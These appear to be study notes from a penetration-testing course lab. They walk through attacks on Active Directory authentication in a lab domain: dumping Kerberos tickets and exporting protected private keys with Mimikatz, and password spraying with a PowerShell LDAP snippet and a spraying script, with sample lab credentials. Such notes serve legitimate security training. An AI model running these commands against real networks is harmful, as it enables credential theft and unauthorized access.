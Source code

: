Example with **Tokens/Tickets**:
- Create and cache a service ticket.
	- Let's open a second PowerShell window and list the contents of the SMB share on WEB04 with UNC path \\web04.corp.com\backup.
		- `dir \\web04.corp.com\backup`
- Once we've executed the directory listing on the SMB share, we can use Mimikatz to show the tickets that are stored in memory by entering **sekurlsa::tickets**
	- `sekurlsa::tickets`
	- output --> a TGT and a TGS
	-  Stealing a TGS would allow us to access only particular resources associated with those tickets. Alternatively, armed with a TGT, we could request a TGS for specific resources we want to target within the domain.
	- Mimikatz can also export tickets to the hard drive and import tickets into LSASS

- *PKI* (Public Key Infrastructure)
	- Microsoft provides the AD role *AD CS* (*Active Directory Certificate Services*) to implement a PKI, which exchanges digital certificates between authenticated users and trusted resources
	- If a server is installed as a *CA* (*Certification Authority*), it can issue and revoke digital certificates (and much more)
	- These certificates may be marked as having a non-exportable private key for security reasons
	- If so, a private key associated with a certificate cannot be exported even with administrative privileges. However, there are various methods to export the certificate with the private key.
	- We can rely again on Mimikatz to accomplish this. The *crypto* module contains the capability to either patch the CryptoAPI18 function with **crypto::capi** or KeyIso20 service with **crypto::cng**, making non-exportable keys exportable.

# Performing Attacks on Active Directory Authentication

### Password Attacks
		- When performing a brute force or wordlist authentication attack, we must be aware of account lockouts.

Set up:
	- RDP user jeff on CLIENT75 with the password HenchmanPutridBonbon11.
	- Obtain the account policy with **net accounts**
		-`net accounts`

1st Type of password attack (LDAP & ADSI):
- Uses LDAP and ADSI to perform a low and slow password attack against AD users.
	- we can also make queries in the context of a different user by setting the DirectoryEntry instance
		- provide three arguments, including the LDAP path to the domain controller, the username, and the password
	- ```$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
New-Object System.DirectoryServices.DirectoryEntry($SearchString, "pete", "Nexus123!")```
	- output -> ```distinguishedName : {DC=corp,DC=com}
		Path: LDAP://DC1.corp.com/DC=corp,DC=com```
	- To avoid incorrect password Exceptions
		-change the password in the constructor to **WrongPassword**
- We could use this technique to create a PowerShell script that enumerates all users and performs authentications according to the Lockout threshold and Lockout observation window.
	-This password spraying tactic is already implemented in the PowerShell script **`C:\Tools\Spray-Passwords.ps1`**
	-`cd C:\Tools`
	- `powershell -ep bypass`
	- `.\Spray-Passwords.ps1 -Pass Nexus123! -Admin`
		- -Pass =  set a single password to test
		- -File =  submit a wordlist file 
